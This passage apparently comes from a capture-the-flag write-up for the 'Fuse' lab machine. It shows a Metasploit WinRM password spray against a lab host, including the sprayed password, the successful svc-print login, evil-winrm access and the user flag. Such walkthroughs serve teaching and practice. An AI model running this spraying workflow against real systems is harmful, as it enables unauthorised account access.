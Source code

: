 ```bash
msf5 > use auxiliary/scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users.txt
USER_FILE => users.txt                                                                                                                                                                                                                                                                                                     
msf5 auxiliary(scanner/winrm/winrm_login) > set PASSWORD $fab@s3Rv1ce$1                                                                                                                                                                                                                                                    
PASSWORD => $fab@s3Rv1ce$1                                                                                                                                                                                                                                                                                                 
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.193                                                                                                                                                                                                                                                        
RHOSTS => 10.10.10.193                                                                                                                                                                                                                                                                                                     
msf5 auxiliary(scanner/winrm/winrm_login) > run

[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\pmerton:$fab@s3Rv1ce$1 (Incorrect: )
...
[+] 10.10.10.193:5985 - Login Successful: WORKSTATION\svc-print:$fab@s3Rv1ce$1
...
```

Now we can login as `svc-print` using evil-winrm.

![user_shell](/assets/img/posts/fuse/user_shell.png)

## User.txt

And we find the user flag in C:\Users\svc-print\Desktop

![user_flag](/assets/img/posts/fuse/user_flag.png)
